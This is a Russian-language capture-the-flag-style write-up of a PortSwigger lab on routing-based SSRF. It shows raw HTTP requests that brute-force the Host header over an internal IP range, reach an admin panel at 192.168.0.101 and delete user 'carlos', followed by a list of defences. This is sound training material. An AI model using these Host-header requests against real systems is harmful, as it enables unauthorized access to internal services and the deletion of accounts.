


#####  SSRF на основе маршрутизации через заголовок Host
лаба https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf

задание :` перейдите к внутренней панели администратора, расположенной в диапазоне `192.168.0.0/24`, затем удалите пользователя `carlos``

Диапазон 192.168.0.0/24 означает все IP-адреса от 192.168.0.0 до 192.168.0.255

------------

беру базовый запрос
```http
GET / HTTP/2
Host: 0aa1006104d5446080903a780037006e.web-security-academy.net
Cookie: session=V09LVChQ2A9tEWFjQ9HhGYayIUvs9IAF; _lab=46%7cMCwCFCStGzL6ZO%2fy9TsQQNEFjSa8KDjPAhRcEpcevmylmkZisgZC3pKcem%2fQGumlw%2f98BdqRN8rBjNBE%2fQ43bBljH9MqlR86%2bctJiV25f9r5c%2fnXbCeeWolAW0MveXt3JUmctJkY%2bYdydU%2bWojeuixQCOWZ8z%2fJSTRgVd4AmDUquZH8%3d
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa1006104d5446080903a780037006e.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

и через турбо интрудер переберу весь диапазон, подставив его в host заголовок

-------

сработало!
```http
GET / HTTP/1.1
Host: 192.168.0.101
```
ответ 302 found!




-------
делаю запрос 
```http
GET /admin HTTP/2
Host: 192.168.0.101
```
и вуаля - получаю админ панель!




----------

вот html админки

```html
</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="yzBYOLgjZfkP8zQKVL8HOTdwKOiKKbFY">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
                    </form>
                </div>
```

запрос на делит карлоса

```http
GET /admin/delete?csrf=yzBYOLgjZfkP8zQKVL8HOTdwKOiKKbFY&username=carlos HTTP/2
Host: 192.168.0.101
 http/2
```
ответ 302 - карлос удален!


-----

лаба решена!

-----

#### выводы + защита

этапы взлома - суть

1.   Перебор внутренних IP-адресов из диапазона 192.168.0.0/24 через подстановку в Host header
    
2. Обнаружение внутреннего сервера (192.168.0.101) с панелью администратора
    
3. Доступ к /admin и получение CSRF-токена
    
4. Удаление пользователя carlos через POST-запрос к /admin/delete

> сам сайт лабы имеет публичный домен, но прокси-сервер на основе Host header направляет запросы на разные внутренние серверы. Подставив внутренний IP, атакующий получает доступ к системам, которые не должны быть видны извне

-------

##### защита от routing-based SSRF

🍺 настроить reverse proxy и балансировщики так, чтобы они маршрутизировали запросы только по белому списку разрешенных доменов, а не по произвольным значениям Host header

🍺 не использовать Host header для принятия решений о маршрутизации без предварительной валидации. Все нераспознанные хосты должны направляться на стандартную страницу-заглушку или отклоняться

🍺 разделять инфраструктуру: внутренние сервисы и админ-панели не должны находиться на тех же серверах или в тех же сетевых диапазонах, что и публичные приложения

🍺 использовать сетевые средства защиты: фаерволы, ограничения на уровне маршрутизаторов, которые не позволяют прокси-серверам обращаться к внутренним IP-адресам без явного разрешения

🍺 валидировать Host header на уровне приложения перед его использованием для любых критических операций, включая формирование ссылок и принятие решений о доступе

🍺 отключить поддержку заголовков, переопределяющих Host (X-Forwarded-Host и аналоги), если они не используются, или жестко ограничить список доверенных прокси, от которых такие заголовки принимаются

🍺 запретить открытый бутфорс (распознавать как подозрительный запрос)

🍺  использовать белые списки. Валидировать Host header по списку разрешенных доменов. Отклонять всё, что не совпадает